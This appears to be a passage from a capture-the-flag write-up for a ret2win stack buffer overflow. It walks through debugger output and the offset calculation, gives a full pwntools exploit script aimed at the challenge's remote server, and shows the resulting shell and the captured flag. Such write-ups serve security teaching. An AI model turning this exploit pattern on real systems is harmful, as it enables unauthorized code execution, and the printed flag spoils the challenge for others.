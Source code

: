 ```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0         0x4011ce main+68
   1 0x6164616161616161
   2 0x6165616161616161
   3 0x6166616161616161
   4 0x6167616161616161
   5 0x6168616161616161
   6 0x6169616161616161
   7 0x616a616161616161
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```
This time we are going to pick the pattern that was stored in ```rbp``` and then we are going to add 8 bytes in order to be able to write adjacent memory from the stack pointer. 

```
pwndbg> cyclic -l aaaaaaca
Finding cyclic pattern of 8 bytes: b'aaaaaaca' (hex: 0x6161616161616361)
Found at offset 10
```
This would bring our offset to 18. Ideally we also need to check for a ret gadget since By overwriting the return address on the stack with the address of a ret gadget, we can control where the program execution will continue. And we want the flow to our win (shell) function.

With that we can craft our payload 

```
from pwn import *

binary = context.binary = ELF("./win", checksec=False)

# p = process()
p = remote("173.255.201.51", 3337)

buffer = b'A' * 18
win = p64(0x0401156)
ret = p64(0x040101a)

payload = buffer
payload += ret
payload += win

p.sendline(payload)
p.interactive()
```
Noice......

```
dexter@lab:~/the-lab/knights/rev$ python3 solve_win.py 
[+] Opening connection to 173.255.201.51 on port 3337: Done
[*] Switching to interactive mode
Can u find me ? i dont think so...!
$ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
$ ls
flag.txt
win
ynetd
$ cat flag.txt
KCTF{r3T_7o_W1n_iS_V3rRY_3AsY}
```
